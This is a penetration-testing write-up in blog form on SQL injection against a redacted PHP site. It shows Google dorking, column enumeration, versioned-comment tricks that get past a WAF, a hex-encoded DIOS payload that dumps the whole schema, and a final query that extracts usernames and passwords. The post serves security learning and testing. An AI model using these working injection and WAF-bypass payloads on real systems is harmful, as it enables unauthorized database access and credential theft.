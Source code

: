```yaml
---
title: Bypassing WAF to do advanced Error-Based SQL Injection [Bug Hunting]
updated: 2020-10-24 14:15
---
```

During penetration testing, I faced with a website which on this article I will name it as **http://domain.com**
While browsing the website, I didn't see any single Parameter, even though the website was built with PHP. I quit browsing and started to Google Dorking.

## Google Dorking to look for endpoints

Using a simple dork **inurl:http://domain.com** , I managed to find some interesting endpoints:

![google_dorking](https://cdn-images-1.medium.com/max/800/1*dOzQ6osNlP2MtPepjmUfTg.jpeg)

The selected text in the image leads to an interesting point: **http://domain.com/REDACTED/news.php?id=13**
When opening the URL, I faced a MySQL Error. Even from the Google dorking result, you can see the error:

>Warning: mysql_fetch_assoc() expects parameter 1 to be resource, boolean give in … on line 27

![sql_error](https://cdn-images-1.medium.com/max/800/1*bD7dRU0SNgh8sUak9wrOtA.jpeg)

The error is very valuable to us, because we know that we can perform some Boolean-Based queries. Let's begin exploiting.

## Analyzing the website's behaviour

I tried some basic queries to see how website behaves. When I enter a bad query, I get 2 errors (1 is already a default error message, the other is caused by us).

![error_on_query](https://cdn-images-1.medium.com/max/800/1*Uc4eqKsfd1t22MTQLLIgYg.jpeg)

So we know that if our query is correct, we get only 1 error message, else we get 2 error messages. Because of this valuable information (which I took time to realise), let's get the number of columns by using ORDER BY query.

## Finding the number of columns with Boolean + ORDER BY query

Because server expects us a Boolean, I can use AND 0 boolean query, but you can also use some other boolean queries:

```
AND null
AND 1
```

Our query will now have both boolean and ORDER BY query. I always try to start from finding column from number 1, because it is 100% sure it won't show any error.

>http://domain.com/REDACTED/news.php?id=13 AND 0 order by 1-- -

![order_query_enumeration](https://cdn-images-1.medium.com/max/800/1*V27VRWpRNQu0vnlCYxmAdw.jpeg)

We get only 1 error message (from website, not from our query). Now that we know our query is correct, let's try increasing the number of column by 1 until we get a second error.

```
?id=13 AND 0 order by 1-- - (shows 1 error)
?id=13 AND 0 order by 2-- - (shows 1 error)
?id=13 AND 0 order by 3-- - (shows 1 error)
?id=13 AND 0 order by 4 -- - (shows 1 error)
?id=13 AND 0 order by 5-- - (shows 1 error)
?id =13 AND 0 order by 6-- - (shows 2 errors)
```

2 error messages will show up when we try to find the 6th column. So it means the database has only 5 columns.

>http://domain.com/REDACTED/news.php?id=13 AND 0 order by 6-

![2_errors_when_trying_to_find_6th_column](https://cdn-images-1.medium.com/max/800/1*8IzNhQcOpDh-kIsSpl1rUA.jpeg)

Before moving on, confirm that the database has 5 columns.

>http://domain.com/REDACTED/news.php?id=13 AND 0 order by 5-- -

![we_found_5_columns](https://cdn-images-1.medium.com/max/800/1*tXxMtjqfSHSfv7oI562PDQ.jpeg)

## Bypassing WAF and finding which column has data to dump

Now we are sure, because we don't get a second error. Now it is time to find which of these 5 columns is filled with information using UNION SELECT query.

>http://domain.com/REDACTED/news.php?id=13 AND 0 union select 1,2,3,4,5-- -

![waf_block_union_based_query](https://cdn-images-1.medium.com/max/800/1*R_52nBs2OihqbBqVruN9cg.jpeg)

Oh, our request got blocked from WAF, let's try bypassing it. There are tons of UNION queries to bypass WAF, but on this case what worked was:

>http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,2,3,4,5-- -

![waf_bypassed](https://cdn-images-1.medium.com/max/800/1*L3ExW1TVMPjUKUe1nLY8Cw.jpeg)

We bypassed WAF, however no number is displayed. Because of this, we don't know which columns we are going to dump. I looked through the whole page but nothing, so I decided to view the source code.

![source_code_column_number](https://cdn-images-1.medium.com/max/800/1*pde56DJHiNu_OK0nzmqASQ.jpeg)

In the selected part, we see the number 2 and 3. Great, now we know we have to focus on these 2 columns. In this case I will try the second column.

## Dumping all the data from the second column

### Dumping the database name
With **UNION** based query, let's dump the database name.

>http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,database(),3,4,5-- -

![dumping_db_name](https://cdn-images-1.medium.com/max/800/1*ZZDA5wR7U6Cu0UXRHzSsyg.jpeg)

Great, we see the database name.

### Dumping tables+columns automatically with DIOS

I will try injection a DIOS payload because getting every column for every table by manual SQL Injection is very long and boring. DIOS created a nice representation of the SQL we are facing with. The DIOS payload I used, is specially built for WAF bypassing using 0xHEX conversion and /*!00000 for string bypass.

```
http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,/*!00000concat*/(0x3c666f6e7420666163653d224963656c616e6422207374796c653d22636f6c6f723a7265643b746578742d736861646f773a307078203170782035707820233030303b666f6e742d73697a653a33307078223e496e6a6563746564206279204468346e692056757070616c61203c2f666f6e743e3c62723e3c666f6e7420636f6c6f723d70696e6b2073697a653d353e44622056657273696f6e203a20,version(),0x3c62723e44622055736572203a20,user(),0x3c62723e3c62723e3c2f666f6e743e3c7461626c6520626f726465723d2231223e3c74686561643e3c74723e3c74683e44617461626173653c2f74683e3c74683e5461626c653c2f74683e3c74683e436f6c756d6e3c2f74683e3c2f74686561643e3c2f74723e3c74626f64793e,(select%20(@x)%20/*!00000from*/%20(select%20(@x:=0x00),(select%20(0)%20/*!00000from*/%20(information_schema/**/.columns)%20where%20(table_schema!=0x696e666f726d6174696f6e5f736368656d61)%20and%20(0x00)%20in%20(@x:=/*!00000concat*/(@x,0x3c74723e3c74643e3c666f6e7420636f6c6f723d7265642073697a653d333e266e6273703b266e6273703b266e6273703b,table_schema,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c74643e3c666f6e7420636f6c6f723d677265656e2073697a653d333e266e6273703b266e6273703b266e6273703b,table_name,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c74643e3c666f6e7420636f6c6f723d626c75652073697a653d333e,column_name,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c2f74723e))))x)),3,4,5-- -
```

![dios_db_dumped](https://cdn-images-1.medium.com/max/800/1*_ochp_xXzWmqScYbWHe5qQ.jpeg)

### Dumping the data inside the columns

Great, we have the tables and the columns for each table. From all this big table, I fill focus on these 2 tables.

![focusing_on_user_table](https://cdn-images-1.medium.com/max/800/1*2MALUlU8GPXr4kFUhtwLsw.png)

This is what grabbed my attention. I will focus **user** table and will dump the data from 2 columns: **username** and **password**

The final Payload will be:

```
http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,(SELECT+GROUP_CONCAT(username,0x3a,password+SEPARATOR+0x3c62723e)+FROM+kbelb_db.user),3,4,5-- -
```

Now look at the source and we get the username:password of admin/user.

![credentials_dumped](https://cdn-images-1.medium.com/max/800/1*zje07q7CEF-n9XCx3geRfg.jpeg)
